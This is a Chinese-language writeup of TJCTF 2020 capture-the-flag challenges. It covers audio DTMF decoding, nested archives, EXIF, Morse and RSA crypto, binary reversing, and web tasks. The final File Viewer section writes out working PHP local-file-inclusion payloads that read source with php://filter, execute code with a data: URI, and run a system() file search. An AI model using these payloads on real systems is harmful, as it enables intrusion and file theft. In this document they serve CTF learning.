

## TJCTF 2020 Writeups

团队排名 **279/1209**，**420** points | [官网](https://tjctf.org/)

### Miscellaneous

#### arabfunny

> So many [sounds](https://static.tjctf.org/449acd6124ee789182ced8c03a0a50664bdbe2bd22669455fceeca8acec9b718_arabfunny.mp3)...

听这个音频文件确实嘈杂，不过在中间部分有按键音。想到之前做过的题目中也有这样的题，解法就是 [DTMF](https://en.wikipedia.org/wiki/Dual-tone_multi-frequency_signaling) 音调，常用于电话系统中

解法：

1. 使用音频裁剪工具将这段按键音截取出来上传到该[网站](http://dialabc.com/sound/detect/index.html)，或者使用 *multimon-ng* 工具（`multimon-ng -t wav -a DTMF sample.wav`）
2. 根据返回结果，将十进制转换为 ASCII 码即可得 flag


#### Zipped Up

> My friend changed the password of his Minecraft account that I was using so that I would stop being so addicted. Now he wants me to work for the password and sent me this [zip file](https://static.tjctf.org/663d7cda5bde67bd38a8de1f07fb9fab9dd8dd0b75607bb459c899acb0ace980_0.zip). I tried unzipping the folder, but it just led to another zipped file. Can you find me the password so I can play Minecraft again?

之前做过类似的练习也是重复解压缩，并且解压缩的结果都是一样的文件格式，不过这次解压缩结果不一致，有 4 种压缩文件（`.zip`，`.bz2`，`.kz3`和 `.gz`），并且还有另外一个文本文件

解法：

编辑 [Python](../res/tjctf_2020/solve_Zipped_up.py) 脚本来处理压缩文件



### Forensics

#### Ling Ling

> Who made this [meme](https://static.tjctf.org/d25fe79e6276ed73a0f7009294e28c035437d7c7ffe2f46285e9eb5ac94b6bec_meme.png)? [I made this meme](https://www.reddit.com/r/lingling40hrs/comments/gam2if/this_popped_in_my_mind_as_i_was_playing_it_and_i/)! unless.....

解法：

两张图片看起来虽然相同，但其中存在 EXIF 信息。使用 *exiftool* 工具查看即可


### Crypto

#### Tap Dancing

> My friend is trying to teach me to dance, but I am not rhythmically coordinated! They sent me a list of [dance moves](https://static.tjctf.org/518d6851c71c5482dbd5bbe812b678684238c8f4e9e9b3d95a188f7db83a0870_cipher.txt) but they're all numbers! Can you help me figure out what they mean so I can learn the dance?

解法：

Google 搜索得知 *In "Ship Ahoy," Powell tapped out a morse code message to a secret agent in the middle of a dance number.*，由此看来这串数字是一种摩尔编码。我们知道摩尔编码是由 `.` 和 `-`组成，空格分隔，三种字符刚好与`2`、`1`和`0`对应，因此

`1101111102120222020120111110101222022221022202022211`转换成`-- ----- .-. ... . -. ----- - -... ....- ... . ...--`，再进行摩尔解码即可


#### Speedrunner

> I want to make it into the hall of fame -- a top runner in "The History of American Dad Speedrunning". But to do that, I'll need to be faster. I found some [weird parts](https://static.tjctf.org/6e61ec43e56cff1441f4cef46594bf75869a2c66cb47e86699e36577fbc746ff_encoded.txt) in the American Dad source code. I think it might help me become the best.

解法：

对于这类一大段字符，并且可以明显看出 flag 格式的字符串，直接扔到[词频分析器](https://quipqiup.com/)即可得到 flag


#### RSABC

> I was just listening to some [relaxing ASMR](https://youtu.be/J2g3lvNkAfI) when a notification popped up with [this](https://static.tjctf.org/68f148e8d4b5ceb8f9fa6da568db024c28b80b55891fba49880b76b35d436114_rsa.txt).

解法：

根据文件中给出的 `n`、`e`和`c`，进行 RSA [解密](../res/tjctf_2020/solve_RSABC.py)即可


### Reversing

#### Forwarding

> It can't be *that* hard... right?

解法：

使用 IDA Pro（64 bit）反汇编该程序即可得 flag


#### Gym

> Aneesh wants to acquire a summer bod for beach week, but time is running out. Can you help him [create a plan](https://static.tjctf.org/bed9d7b7327958dab4d07b06772a032f3e97455e310956558579e8838762b5e2_gym) to attain his goal?
>
> `nc p1.tjctf.org 8008`

解法：

使用 IDA Pro（64 bit）反汇编该程序，查看程序流程很清晰。有一个初始化值为十进制 **211** ，需要经过 7 个循环步骤减至 **180** 才能得到 flag，并且每次循环只有 4 种选项，并且每种选项减的数不一，其中最多减 4 ，因此照这样算下来我们最多减 28 ，也就不能减到 180

像这类的挑战无非就是考验代码审计能力，找出程序存在的逻辑错误即可破解。因此在这段代码中

```c++
if ( v3 > 2 )
{
  if ( v3 == 3 )
  {
    v5 -= go_run(); # 减2
LABEL_12:
    v5 -= go_sleep(); #减3
    continue;
  }
  if ( v3 == 4 )
    goto LABEL_12;
}
```

选择 **3** 选项时不是减2，而是**减5**；选择 **4** 选项时减3。因此 `211-180=31`，只要将 **31** 在7个步骤内减完即可，因此**选择 4 次步骤1，3 次步骤 3** 即可得flag


### Web

#### Login

> Could you login into this [very secure site](http://login.tjctf.org/)? Best of luck!

解法：

查看网页源码后发现一段混淆 JS 脚本，替换字符串和简单格式化后如下

```javascript
<script>
    var a=['value','c2a094f7d35f2299b414b6a1b3bd595a','Sorry.\x20Wrong\x20username\x20or\x20password.','admin','tjctf{','getElementsByName','toString'];
    (function(b,c){
            var d=function(e){
                while(--e){
                    b['push'](b['shift']());
                }
            };
            d(++c);
    })(a,0x1e7);

    var f=function(b,c){
        b=b-0x0;
        var d=a[b];
        return d;
    };

    checkUsername=function(){
        username=document[f('0x1')]('username')[0x0]['value'];
        password=document[f('0x1')]('password')[0x0][f('0x3')];
        temp=md5(password)[f('0x2')]();
        if(username==f('0x6')&&temp==f('0x4'))
            alert(f('0x0')+password+'890898}');
        else alert(f('0x5'));
    };
</script>
```

该脚本功能显而易见就是 md5 解密（ `MD5(inevitable) = c2a094f7d35f2299b414b6a1b3bd595a` ），在登录框输入用户名和密码：`admin:inevitable`即可得到 flag


#### Sarah Palin Fanpage

> Are you a true fan of Alaska's most famous governor? Visit the [Sarah Palin fanpage](http://sarah_palin_fanpage.tjctf.org/).

解法：

在该页面（*https://sarah_palin_fanpage.tjctf.org/exclusive*）的 Cookie 中的 data 字段是经过 **Base64** 编码后的字符串，解码后

```json
{"1":false,"2":false,"3":false,"4":false,"5":false,"6":false,"7":false,"8":false,"9":false,"10":false}
```

将其中的 *false* 该为 *true* 后进行 Base64 编码替换原来的即可得到 flag


#### File Viewer

> So I've been developing this really cool [site](http://file_viewer.tjctf.org/) where you can read text files! It's still in beta mode, though, so there's only six files you can read.

解法：

简单测试后发现存在 **LFI** 漏洞，并且也可以 **RFI**。不过在这里利用 LFI 即可

1. 读取 *reader.php* 源码：`?file=php://filter/convert.base64-encode/resource=reader.php`

   ```php+HTML
   <strong>
       <?php
           $file = $_GET['file'];
           include($file);
       ?>
   </strong>
   ```

2. 测试执行 PHP 代码成功

   `?file=data:text/plain,<?php phpinfo()?>`

3. 查找 flag 文件

   `?file=data:text/plain,<?php system("find / -name *flag* -type f");?>`

4. 读 flag 文件

   `?file=php://filter/convert.base64-encode/resource=/var/www/html/i_wonder_whats_in_here/flag.php`

